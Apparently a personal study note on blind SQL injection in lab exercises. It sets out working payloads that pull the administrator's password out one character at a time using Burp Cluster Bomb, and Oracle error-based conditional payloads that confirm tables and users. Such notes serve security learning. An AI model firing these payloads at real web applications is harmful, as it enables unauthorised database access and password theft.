This is autmoated with **BURP'S CLUSTER BOMB** feature
```
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,$2$,1) from users where username='administrator')='$z$'--'
```
+ You can use **BURP CLUSTER BOMB** for this
 - For second argument in `substr`: `substr(password,$1$,1)`
 - For letter looked: `='$a$'`

- - - - - - - - - - - - - - - - -


-------------------------------------------------------------
-------------------------------------------------------------

### 12. Blind SQL: With `conditional errors`

1. Prove that parameter is vulnerable
  + This is using **CONCATENATION**

`' || (select '' from dual) || '` -> oracle database
`' || (select '' from dualfiewjfow) || '` -> error (confirms sql injection)

- - - - - - - - - - - - - - - - - - - -
- - - - - - - - - - - - - - - - - - - -

2. Confirm the users table exists

`' || (select '' from users where rownum =1) || '`
+ `rownum =1` was inserted because `select ''` broke query
 - `rownum` establishes how many rows

- - - - - - - - - - - - - - - - - - - -
- - - - - - - - - - - - - - - - - - - -

3. Confirm that the administrator user exists in the users table

`' || (select '' from users where username='administrator') || '`
+ This **won't give an error either way**
 - If it _exists_, you get a `200 response`
 - If it _doesn't exist_, you just don't run the `select` portion of statement


`' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '`
+ If **`1=0` successfully runs** then the `1/0` should **never run**
 - Because `1=0` iS _FALSE_


`' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') || '`
+ If **`1=1` successfully runs** then the `1/0` **should RUN**
 - Cause `1=1` is _TRUE_
+ If an _Internal server error_ happens
 - This mean `administrator` user **exists**


`' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='fwefwoeijfewow') || '`
+ If a `200 response` happens
 - This user **does not exist** in database
